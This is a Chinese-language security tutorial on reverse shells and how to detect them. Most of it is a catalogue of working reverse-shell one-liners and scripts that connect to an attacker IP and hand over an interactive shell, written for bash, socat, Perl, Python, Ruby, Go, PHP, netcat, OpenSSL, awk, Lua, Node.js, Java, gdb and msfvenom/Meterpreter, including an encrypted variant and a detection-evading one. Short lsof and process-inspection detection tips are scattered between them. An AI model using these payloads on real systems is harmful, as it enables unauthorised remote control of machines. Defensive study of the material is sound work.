





#### 反弹Shell及检测
```plain
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

进程的 0 1 2 输入输出重定向到远程socket，由socket中获取输入，重定向标准输出（1）和错误输出（2）到socket。

+ bash -i
    - bash是Linux较为常见的Shell，除此还有zsh、sh、ksh等，之间有着细小差别
    - -i 参数表示产生交互式的Shell
+ >&
    - 混合输出，将正确、错误都输出到一个地方，避免受害者机器上能看到在攻击者机器中执行的指令。
+ /dev/tcp/ip/port
    - Linux下一切皆文件，可以看成是一个设备文件，这个文件进行读写，就能实现与监听端口的服务器Socket通信。
+ 0>&1
    - 0表示输入，就将Attack输入，然后命令执行的结果为1，也会输出给攻击者，就形成了一个回路，实现了远程交互式Shell



检测方案：

使用lsof检测，如果出现了0 1 2 文件描述符的重定位，则存在反弹shell的风险。

Copy

```plain
lsof -n | grep ESTABLISHED |grep -E '0u|1u|2u'
```

www、www-data、apache、nginx等这类用户，一般Bash进程不会连接远程地址。

流量层面会检测相关的关键字，例如：匹配uid=0(root) gid等相关关键字，整个通信流量都是明文。

反弹Shell最主要是进程检测、流量检测。



#### 反弹Shell的多种形式
Copy

```plain
<&196;exec 196<>/dev/tcp/192.168.3.254/4242; sh <&196 >&196 2>&196
```

+ 0<&196
    - 文件描符196指向的内容重定向到标准输入，从TCP连接获取标准输入
+ exec 196<>/dev/tcp/ip/port
    - exec重定向以读写方式打开该TCP连接，使用196文件描述符指向它
+ sh <&196 >&196 2>&196
    - 将输出、错误重定向到sh。

**Bash UDP**

Copy

```plain
sh -i >& /dev/udp/192.168.3.253/4242 0>&1
Centos7：csh -i >& /dev/udp/192.168.3.253/4242 0>&1
```

**Socat**

Socat 是 Linux 下的一个多功能的网络工具，名字来由是 「Socket CAT」。其功能与有瑞士军刀之称的 Netcat 类似，可以看作是 Netcat 的加强版

Socat 的主要特点就是在两个数据流之间建立通道，且支持众多协议和链接方式。如 IP、TCP、 UDP、IPv6、PIPE、EXEC、System、Open、Proxy、Openssl、Socket等。

Copy

```plain
Victim：
Socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
 
Attack：
socat file:`tty`,raw,echo=0 TCP-L:4242
```

Socat运行有4个阶段：

1. 初始化阶段：将解析命令行并初始化日志系统。

2. 打开阶段：Socat打开第一个地址连接，然后打开第二个地址连接。如果第一个连接失败，则会直接退出。

3. 传输阶段：Socat通过CWselect()监视，当数据在一侧可用并且可以写到另一侧时，socat读取它，并在需要时执行换行符转换，然后写入将该数据保存到另一个流的写入文件描述符中，然后继续等待双向的更多数据。

4. 关闭阶段：其中一个连接掉开，执行处理另外一个连接。

前置条件，安装socat

Copy

```plain
yum -y install socat
```

检测思路：

Copy

```plain
lsof -n | grep ESTABLISHED |grep -E '*u'

#查看socat进程
ps aux|grep socat
ls -al /proc/93974/fd
lsof -n|grep 217744
```

**Perl**

Perl一种功能丰富的计算机程序语言，运行在超过100种计算机平台上，适用广泛，从大型机到便携设备，从快速原型创建到大规模可扩展开发。

无需安装，很多系统平台上已经默认安装了perl，有一些WebShell大马中会集成Perl反弹Shell这也是最常见反弹手法之一。

Copy

```plain
perl -e 'use
Socket;$i="192.168.3.254";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

第二种方式不依赖于/bin/sh的Shell

Copy

```plain
perl -MIO -e '$p=fork;exit,if($p);$c=new
IO::Socket::INET(PeerAddr,"192.168.3.254:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

不管通过什么语言执行反弹的Shell，本质是把bash/zsh等进程的 0 1 2 输入输出重定向到远程socket

Copy

```plain
lsof -n | grep ESTABLISHED |grep -E '0u|1u|2u'
```

**Python**

通过socket建立连接，使用os的subprocess在本地开启一个子进程，启动bash交互模式，标准输入、标准输出、标准错误输出被重定向远程

Copy

```plain
export RHOST="192.168.3.254";export RPORT=4242;python -c 'import
sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

方法二：

Copy

```plain
Python -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.3.254",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

os.dup2() 方法用于将一个文件描述符 fd 复制到另一个 fd2。

使用duo2方法将第二个形参（文件描述符）指向第一个形参（socket链接），如果是Python3只需要修改为python3即可。

检测方法:

Copy

```plain
lsof -n | grep ESTABLISHED |grep -E '0u|1u|2u'
```

**Ruby**

Ruby，一种简单快捷的面向对象（面向对象程序设计）脚本语言。通过Socket建立TCP连接，并把sh重定向至远程。

Copy

```plain
ruby -rsocket -e 'exit if
fork;c=TCPSocket.new("192.168.3.254","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

前置条件

+ 默认没有提供，需要自行安装Ruby
+ 需要高版本Ruby 2.6

Copy

```plain
#安装:
yum -y install ruby ruby-devel rubygems rpm-build
yum install gcc-c++ patch readline readline-devel zlib zlib-devel \
libyaml-devel libffi-devel openssl-devel make \
bzip2 autoconf automake libtool bison iconv-devel sqlite-devel
# 修改ruby的gem源
gem sources --查看当前使用的源地址
gem sources -a http://mirrors.aliyun.com/rubygems/ --添加阿里云镜像地址
gem sources -r https://rubygems.org/ --删除默认的源地址
gem sources -u --更新源的缓存
 
安装rvm
gpg --keyserver hkp://keys.gnupg.net --recv-keys 409B6B1796C275462A1703113804BB82D39DC0E3 7D2BAF1CF37B13E2069D6956105BD0E739499BDB
 
curl -sSL https://get.rvm.io | bash -s stable
source /etc/profile.d/rvm.sh
rvm install 2.6
```

**Golang**

Go语言标准库里提供的net包，支持基于IP层、TCP/UDP层及更高层面（如HTTP、FTP、SMTP）的网络操作，其中用于IP层的称为Raw Socket。

net包的Dial()函数用于创建网络连接，函数原型如下：

Copy

```plain
func Dial(net, addr string) (Conn, error)
```

其中net参数是网络协议的名字，addr参数是IP地址或域名；如果连接成功，返回连接对象，否则返回error，目前Dial()函数支持如下几种网络协议："tcp"、"udp"、"ip"、"ip6"

Copy

```plain
echo 'package main;import"os/exec";import"net";func
main(){c,_:=net.Dial("tcp","192.168.3.254:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

+ 通过net.Dial创建TCP Socket连接，成功反回对象，否则返回Error.
+ os/exec中用到了Stdin,Stdout,Stderr，将/bin/sh重定向到远程
+ 将内容输出t.go文件中并运行go源文件。

前置条件

Copy

```plain
go环境
wget https://storage.googleapis.com/golang/go1.9.linux-amd64.tar.gz
tar xf go1.9.linux-amd64.tar.gz
mv go /usr/local
vim /etc/profile
export GOROOT=/usr/local/go
export GOPATH=$HOME/work
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
source  /etc/profile
go version
go env
```

**PHP**

fsockopen — 打开一个网络连接或者一个Unix套接字连接，exec用于执行命令、proc_open执行一个命令，并且打开用来输入/输出的文件指针。

Copy

```plain
php -r '$sock=fsockopen("192.168.3.6",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

方法二：

Copy

```plain
php -r
'$sock=fsockopen("192.168.3.6",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

前置条件

Copy

```plain
php环境
yum -y install php
Netcat Traditional
nc -e /bin/bash 192.168.3.6 4242
nc -c bash 192.168.3.6 4242
```

检测思路：

Copy

```plain
ps -ef
ls -al /proc/1882/fd
```

需要定位socket和pipe的数据传递过程。

反弹shell的本质可以定义为：一个client上的bash进程 可以和 server上的进程通信。

而反弹shell的检测，本质上就是检测 shell进程（如bash）的输入输出是否来自于一个远程的server。

由于进程通信的复杂性（例如pipe），会导致单纯的检测shell进程的0 1 2 是否来自socket会存在漏报。但是按照这个思路，检测shell进程的0 1 2 的来源，顺着来源继续跟踪，如果最终是来自一个socket。那么则存在反弹shell的风险。



**Netcat OpenBsd**

Netcat OpenBsd使用场景，当各个linux发行版本已经自带了netcat工具包，但是可能由于出于安全考虑原生版本的netcat带有可以直接发布与反弹本地shell的功能参数 -e这里都被阉割了。

mkfifo 命令的作用是创建FIFO特殊文件，通常也称为命名管道，FIFO文件在磁盘上没有数据块，仅用来标识内核中的一条通道，各进程可以打开FIFO文件进行read/write，实际上是在读写内核通道（根本原因在于FIFO文件结构体所指向的read、write函数和常规文件不一样），这样就实现了进程间通信。

Copy

```plain
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.3.6 4242 >/tmp/f
```

+ mkfifo：创建一个管道
+ cat /tmp/f：将管道里面的内容输出传递给/bin/sh
+ /bin/sh -i 2>&1：sh会执行管道里的命令并将标准输出和标准错误输出结果通过nc 传到该管道，由此形成了一个回路

**Ncat**

nc和ncat的区别：只是采用不同的选项并具有不同的功能。



Copy

```plain
ncat 192.168.3.6 4242 -e /bin/bash
```

**OpenSSL**

常用的nc反弹流量都没有经过加密，容易被发现，使用 OpenSSL 生成证书自签名证书，通过mkfifo创建一个管道将管道里面的内容输出传递给/bin/sh

Copy

```plain
Attack：
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
或者
ncat --ssl -vv -l -p 4242
Victim:
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.3.6:4242 > /tmp/s; rm /tmp/s
```

**AWK**

Copy

```plain
awk 'BEGIN {s = "/inet/tcp/0/192.168.3.6/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

**Lua**

Lua Socket 是 Lua 的网络模块库，它可以很方便地提供 TCP、UDP、DNS、FTP、HTTP、SMTP、MIME 等多种网络协议的访问操作。通过socket模块建立连接,os模执行命令将/bin/sh重定向远程

Copy

```plain
lua -e
"require('socket');require('os');t=socket.tcp();t:connect('192.168.3.6','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

前置条件

Copy

```plain
#安装luasocket
wget http://files.luaforge.net/releases/luasocket/luasocket/luasocket-2.0.2/luasocket-2.0.2.tar.gz
tar -xzvf luasocket-2.0.2.tar.gz
进入目录：luasocket-2.0.2，修改config文件
LUAINC=-I/usr/local/nginx/lua/zhangys/luasocket-2.0.2/src
LUAINC=-I/usr/local/openresty/luajit/include/luajit-2.1
make & make install
```

**NodeJS**

除了在服务器上进行反弹，有些网站存在Nodejs远程调试漏洞也可以使用反弹Shell。

Copy

```plain
node -e '(function(){var net = require("net"),cp =
require("child_process"),sh = cp.spawn("/bin/sh", []);var client = new net.Socket();client.connect(4242, "192.168.3.6", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;})();'
```

前置条件

Copy

```plain
安装node
yum -y install node
```

**JAVA**

Copy

```plain
vim Exec.java
public class Exec {
    public static void main(String[] args)throws Exception {
        Runtime r = Runtime.getRuntime();
        Process p = r.exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/192.168.3.6/4242;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        p.waitFor();
    }
}
javac Exec.java
java Exec
```

前置条件

Copy

```plain
JDK
yum install epel-release
yum install java-1.8.0-openjdk* -y
```

**Cpan**

cpan 命令是用于与Perl下的CPAN模块进行交互的一个命令行工具。

Copy

```plain
cpan
! use Socket; my $i="192.168.3.6"; my $p=4242; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");}
```



前置条件

Copy

```plain
安装cpan
yum -y install cpan
```

**gdb**

gdb是Linux下调试命令

Copy

```plain
Attack：
socat file:`tty`,raw,echo=0 tcp-listen:4242
Victim：
export RHOST=192.168.3.6
export RPORT=4242
gdb -nx -ex 'python import sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")' -ex quit
```

**easy_install**

easy_install 是一个基于setuptools的工具，帮助我们自动下载、编译、安装和管理python packages.

Copy

```plain
Attack：
socat file:`tty`,raw,echo=0 tcp-listen:4242
Victim：
export RHOST=192.168.3.6
export RPORT=4242
TF=$(mktemp -d)
echo 'import sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")' > $TF/setup.py
easy_install $TF
```

**IRB**

irb是一个交互式的Ruby界面。可以通过irb来调试、运行和实验Ruby代码。

Copy

```plain
export RHOST='192.168.3.6'
export RPORT=4242
irb
require 'socket'; exit if
fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read} end
```

**前置条件**

ruby环境

**JJS**

Nashorn 一个 javascript 引擎。 从JDK 1.8开始，Nashorn取代Rhino(JDK 1.6, JDK1.7)成为Java的嵌入式JavaScript引擎。Nashorn完全支持ECMAScript 5.1规范以及一些扩展。

Copy

```plain
export RHOST=192.168.3.6
export RPORT=4242
echo 'var host=Java.type("java.lang.System").getenv("RHOST");
var port=Java.type("java.lang.System").getenv("RPORT");
var ProcessBuilder = Java.type("java.lang.ProcessBuilder");
var p=new ProcessBuilder("/bin/bash", "-i").redirectErrorStream(true).start();
var Socket = Java.type("java.net.Socket");
var s=new Socket(host,port);
var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){ while(pi.available()>0)so.write(pi.read()); while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read()); so.flush();po.flush(); Java.type("java.lang.Thread").sleep(50); try {p.exitValue();break;}catch (e){}};p.destroy();s.close();' | jjs
```

前置条件

JDK

**jrunscript**

Copy

```plain
export RHOST=192.168.3.6
export RPORT=4242
jrunscript -e 'var host='"'""$RHOST""'"'; var port='"$RPORT"';
var p=new java.lang.ProcessBuilder("/bin/bash", "-i").redirectErrorStream(true).start();
var s=new java.net.Socket(host,port);
var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){
while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());
so.flush();po.flush();
java.lang.Thread.sleep(50);
try {p.exitValue();break;}catch (e){}};p.destroy();s.close();'
```

前置条件

JDK

**ksh**

Copy

```plain
ksh -c 'ksh -i > /dev/tcp/192.168.3.6/4242 2>&1 0>&1'
```

前置条件

Copy

```plain
ksh
yum -y install ksh
```

**Meterpreter Shell**

Copy

```plain
Attack:
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.3.6 LPORT=4242 -f elf > reverse.elf
# msfconsole
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LPORT 4242
SET LRHOST 192.168.3.6
exploit
Victim：
chmod +x reverse.elf
./reverse.elf
```

方法二，能够避归：

Copy

```plain
msfvenom -p linux/x64/meterpreter_reverse_http LHOST=192.168.3.6 -f elf LPORT=4422 -o msfvenom_http
```

二进制

ShellCode内存型反弹

